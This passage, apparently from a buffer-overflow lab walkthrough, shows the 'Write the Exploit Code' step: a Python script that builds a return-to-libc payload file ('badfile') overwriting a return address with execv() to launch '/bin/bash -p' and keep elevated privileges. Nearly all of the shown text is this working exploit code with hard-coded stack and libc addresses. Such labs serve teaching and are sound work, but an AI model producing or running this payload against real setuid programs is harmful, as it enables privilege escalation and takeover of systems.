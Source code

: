 Assume the `argv[]` array is placed at `0xffffd0c0` (just after the padding).

---

#### Step 3: Write the Exploit Code

Here is the Python script to generate the payload:

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

# Addresses
execv_addr = 0xf7e0f060       # Address of execv()
bin_bash_addr = 0xf7f52a0b    # Address of "/bin/bash"
dash_p_addr = 0xf7f52b0c      # Address of "-p"
argv_addr = 0xffffd0c0        # Address of argv[] on the stack

# Offsets
padding_offset = 112          # Offset to the return address
return_addr_offset = padding_offset + 4
pathname_offset = return_addr_offset + 4
argv_offset = pathname_offset + 4

# Construct the payload
# Padding
content[:padding_offset] = b"A" * padding_offset

# Overwrite return address with execv() address
content[padding_offset:padding_offset+4] = (execv_addr).to_bytes(4, byteorder='little')

# Dummy return address (not used, but required for stack alignment)
content[return_addr_offset:return_addr_offset+4] = b"BBBB"

# Argument 1: pathname (address of "/bin/bash")
content[pathname_offset:pathname_offset+4] = (bin_bash_addr).to_bytes(4, byteorder='little')

# Argument 2: argv[] (address of the argument array)
content[argv_offset:argv_offset+4] = (argv_addr).to_bytes(4, byteorder='little')

# Construct argv[] on the stack
argv0_offset = argv_addr - 0xffffd0a0
argv1_offset = argv0_offset + 4
argv2_offset = argv1_offset + 4

# argv[0]: Address of "/bin/bash"
content[argv0_offset:argv0_offset+4] = (bin_bash_addr).to_bytes(4, byteorder='little')

# argv[1]: Address of "-p"
content[argv1_offset:argv1_offset+4] = (dash_p_addr).to_bytes(4, byteorder='little')

# argv[2]: NULL (4 bytes of zero)
content[argv2_offset:argv2_offset+4] = (0).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

---